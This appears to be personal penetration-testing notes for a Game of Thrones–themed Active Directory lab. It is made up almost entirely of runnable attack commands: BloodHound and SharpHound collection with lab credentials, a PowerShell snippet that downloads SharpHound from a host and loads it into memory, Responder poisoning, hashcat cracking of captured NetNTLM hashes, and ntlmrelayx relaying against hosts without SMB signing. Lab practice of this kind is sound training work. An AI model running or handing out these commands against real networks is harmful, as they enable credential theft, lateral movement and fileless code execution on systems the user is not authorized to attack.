 # Bloodhound
```
#First we will get the datas with the python ingestor : https://github.com/fox-it/BloodHound.py
bloodhound.py --zip -c All -d north.sevenkingdoms.local -u brandon.stark -p iseedeadpeople -dc winterfell.north.sevenkingdoms.local
bloodhound.py --zip -c All -d sevenkingdoms.local -u brandon.stark@north.sevenkingdoms.local -p iseedeadpeople -dc kingslanding.sevenkingdoms.local
```
## .net ingestor - from Windows
```
# The official bloudhound ingestor is sharphound : https://github.com/BloodHoundAD/SharpHound
xfreerdp /u:jon.snow /p:iknownothing /d:north /v:192.168.56.22 /cert-ignore
.\sharphound.exe -d north.sevenkingdoms.local -c all --zipfilename bh_north_sevenkingdoms.zip
.\sharphound.exe -d sevenkingdoms.local -c all --zipfilename bh_sevenkingdoms.zip
.\sharphound.exe -d essos.local -c all --zipfilename bh_essos.zip


$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1/SharpHound.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Sharphound.Program]::Main("-d north.sevenkingdoms.local -c all".Split())
```

## Hunting with bloodhound
```
#show all domains and computer
MATCH p = (d:Domain)-[r:Contains*1..]->(n:Computer) RETURN p

#show all the users
MATCH p = (d:Domain)-[r:Contains*1..]->(n:User) RETURN p

#see the overall map of domains/groups/users
MATCH q=(d:Domain)-[r:Contains*1..]->(n:Group)<-[s:MemberOf]-(u:User) RETURN q

#see the users ACL
MATCH p=(u:User)-[r1]->(n) WHERE r1.isacl=true and not tolower(u.name) contains 'vagrant' RETURN p
```

# poison and relay
```
responder -I vboxnet0

hashcat -m 5600 --force -a 0 responder.hashes /usr/share/wordlists/rockyou.txt 

rm /opt/tools/Responder/Responder.db

## hunting unsigned smb in the lab and generate a list of IP targets

crackmapexec smb 192.168.56.10-23 --gen-relay-list relay.txt

#Before starting responder to poison the answer to LLMNR, MDNS and NBT-NS request we must stop the responder smb and http server as we don’t want to get the hashes directly but we want to relay them to ntlmrelayx.
sed -i 's/HTTP = On/HTTP = Off/g' /opt/Responder/Responder.conf && cat /opt/Responder/Responder.conf | grep --color=never 'HTTP ='
sed -i 's/SMB = On/SMB = Off/g' /opt/Responder/Responder.conf && cat /opt/Responder/Responder.conf | grep --color=never 'SMB ='

ntlmrelayx -tf smb_targets.txt -of netntlm -smb2support -socks  
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 
```
